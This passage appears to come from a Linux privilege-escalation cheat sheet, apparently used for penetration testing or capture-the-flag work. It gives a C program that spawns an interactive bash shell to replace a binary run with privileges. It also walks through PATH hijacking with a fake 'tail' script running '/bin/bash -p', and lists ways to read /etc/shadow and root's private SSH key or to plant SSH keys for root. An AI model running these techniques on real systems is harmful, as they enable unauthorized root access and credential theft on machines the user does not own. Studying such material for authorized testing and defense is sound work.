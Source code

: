 Delete the loaded binary and replace with a new one:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/bash -i"); 
    return 0;
}
```

```sh
# Compile
gcc binary.c -o <loaded_binary>
# Run the binary
./binary_name
```

### <mark style="color:yellow;">Other</mark>

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`
* Is there a database? Can I access to it?
  * Look at config file or source code of webpages connecting to db
* Look at the source code of the php,py,jsp ... files of the website
  * Especially login files. Any password?
* Writable authorized\_key folder?
  * generate new ssh keys
* Can I read some file with sudo?
  * /root/root.txt, /etc/shadow, /root/.ssh/id\_rsa
* Can I write a file in the root user directory?
  * generate ssh key with ssh-keygen and save it in the root user dir
* Kernel Exploits
* Linpeas.sh
* [GTFObins](https://gtfobins.github.io)
